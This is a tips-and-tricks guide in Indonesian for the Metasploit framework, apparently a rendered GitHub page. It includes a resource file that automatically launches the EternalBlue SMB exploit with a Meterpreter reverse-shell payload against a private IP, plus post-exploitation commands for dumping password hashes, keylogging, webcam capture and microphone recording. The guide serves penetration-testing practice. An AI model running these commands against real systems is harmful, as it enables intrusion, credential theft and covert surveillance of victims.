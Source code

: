 # Tips dan Trik Penggunaan Metasploit Efisien

## 1. Setup Awal yang Benar

Jalankan Metasploit dengan database aktif:

```
sudo systemctl start postgresql
msfdb init
msfconsole
```

Keuntungan database aktif:
- Menyimpan hasil pemindaian (`Nmap`, `Host`, `Service`).
- Menyimpan workspace dan logs.
- Integrasi dengan Armitage.

## 2. Gunakan Alias dan Tab Completion

- Gunakan `Tab` untuk melengkapi `command`, `module`, `payload`, `dsb`.
- Gunakan `?` atau `help` untuk melihat opsi.

  Contoh:

  ```
  use exploit/windows/smb/ms17_010_eternalblue
  show options
  ```

## 3. Simpan dan Muat Konfigurasi (resource file)

Buat file `auto.rc`:

```
nano auto.rc
```

Isi dengan:

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.45
set RPORT 445
set LHOST 192.168.1.42
set LPORT 4444
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set target 1
set verbose true
exploit
```

Jalankan Metaploit:

```
msfconsole -r auto.rc
```

Ini akan mengeksploitasi target secara otomatis tanpa harus kita setting secara manual satu persatu.

  
## 4. Gunakan search Secara Efisien

Cari berdasarkan `platform`, `CVE`, `tipe`, `dsb`:

```
search type:exploit platform:windows smb
search name:eternalblue
search cve:2017-0144
```

## 5. Gunakan setg untuk Pengaturan Global

```
setg LHOST 192.168.1.5
setg LPORT 4444
```

Berlaku untuk semua `exploit/payload` selanjutnya, hemat waktu konfigurasi.

## 6. Simpan dan Kelola Target dengan Workspace

```
workspace add pentest01
workspace pentest01
db_nmap -sV 192.168.1.0/24
hosts
services
```

Workspace membantu memisahkan proyek dan target secara terstruktur.

 ## 7. Gunakan exploit suggester

Jika kamu sudah mendapatkan sesi shell:

```
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

## 8. Gunakan sessions dengan Cerdas

```
sessions       # daftar sesi
sessions -i 1  # masuk ke session 1
background     # keluarkan sesi ke background
```

## 9. Pasca-Eksploitasi Cepat

Setelah mendapatkan Meterpreter:

```
sysinfo
getuid
hashdump
shell
keyscan_start
keyscan_dump
webcam_snap
record_mic
```

## 10. Gunakan loot, notes, dan creds

Simpan dan kelola hasil:

```
loot
notes
creds
```

## 11. Integrasi dengan Script/Tool Lain
- Gunakan `Python` untuk otomatisasi via `msfrpc` (Metasploit RPC).
- Integrasi dengan `CrackMapExec`, `Empire`, atau `BloodHound`.

## Tips Tambahan:
- Gunakan module `auxiliary/scanner/*` untuk scanning cepat.
- Gunakan module `gather` untuk pencurian informasi secara otomatis.
- Dokumentasikan semua sesi dan hasil eksploitasi untuk laporan.
